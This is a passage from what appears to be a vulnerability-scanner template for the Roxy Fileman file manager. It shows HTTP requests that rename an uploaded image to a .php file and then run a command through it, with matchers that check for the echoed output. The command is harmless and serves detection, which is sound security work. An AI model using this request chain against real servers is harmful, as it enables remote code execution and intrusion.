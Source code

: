 ### Step - 3

```
POST /php/movefile.php?f=%2Fapp%2FUploads%2F{{randstr}}.jpg&n=%2Fapp%2FUploads%2F{{randstr}}.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest

f=%2Fapp%2FUploads%2F{{randstr}}.jpg&n=%2Fapp%2FUploads%2F{{randstr}}.php

```

### Step - 4

```
GET /Uploads/{{randstr}}.php?cmd=echo+"roxyfileman"+|+rev HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - regex**

- part - body
- regex
  1. namelifyxor

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---
